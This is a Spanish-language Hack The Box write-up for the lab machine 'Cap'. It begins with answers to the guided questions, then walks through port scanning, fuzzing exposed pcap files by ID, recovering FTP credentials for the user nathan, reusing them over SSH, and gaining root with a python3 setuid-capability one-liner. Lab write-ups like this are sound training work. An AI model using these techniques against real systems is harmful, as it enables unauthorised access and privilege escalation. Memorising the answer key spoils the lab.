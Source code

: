 ```yaml
---
title: Writeup cap - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - cap
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina cap en Hack The Box.
keywords:
  - writeup cap
  - hack the box cap
  - resolución máquina cap
  - cap hack the box
  - htb cap
---
```

---------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Cap)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=P1YcpcOuPRE)
- 🧠 **Explicación resumida**: 

---

#easy #linux #nmap #ping #wireshark #ffuf #gobuster #whatweb #ssh #getcap #python #sudo #gtfobinds #tratamientotty 

--------
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	3

2)Después de ejecutar una «Instantánea de seguridad», el navegador es redirigido a una ruta con el formato /[algo]/[id], donde [id] representa el número de id del escaneo. ¿Qué es [algo]?
	data

3)¿Puedes acceder a las exploraciones de otros usuarios?
	Si

4)¿Cuál es el ID del fichero PCAP que contiene los datos sensibles?
	0

5)¿En qué protocolo de capa de aplicación del archivo pcap se pueden encontrar los datos sensibles?
	ftp
	
6)Hemos conseguido la contraseña FTP de Nathan. ¿En qué otro servicio funciona esta contraseña?
	ssh

*La pregunta anterior es la flag*
8)¿Cuál es la ruta completa al binario en esta máquina tiene capacidades especiales de las que se puede abusar para obtener privilegios de root?
	/usr/bin/python3.8

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.245
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.245 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.10.10.245 -oN target
```

![[Cap1.png]]![[Cap2.png]]
![[Cap3.png]]
*TTL:* Maquina linux
*Puertos:*
	`21`FTP
	`22`SSH
	`80`HTPP

-----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.245/
```
![[Cap4.png]]

--------
# [[FFUF]] y [[Gobuster]]

Entramos la la pagina principal
![[Cap11.png]]
con [[Gobuster]] no nos salio ningun directorio interesante, pero entrando en una de las paginas, vemos que esta el directorio /data/ y nos ponemos a enumerarlo con digitos
``ffuf -u http://10.10.10.245/data/FUZZ -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -t 64 -fs 208`` Usamos el parametro `-fs 208` ya que habia muchos falsos positivos

![[Cap7.png]]
Nos da la captura de la 0 a la 5
![[Cap12.png]]
Descargamos la 0 y la abrimos con [[wireshark]], podemos ver que informacion sensible

En ftp sacamos el usuario y contraseña nathan:Buck3tH4TF0RM3!

``ftp nathan@10.10.10.245 -p 21``
![[Cap8.png]]

--------
# Conexion por [[ssh]]

Vemos si reutiliza credenciales en [[ssh]] que en habiamos visto que estaba activo el servicio por el puerto 21

``ssh nathan@10.10.10.245 -p 22``
![[Cap9.png]]

---
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios [[getcap]]

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`` lo ejecutamos y ya podemos visualizar las flags

![[Cap15.png]]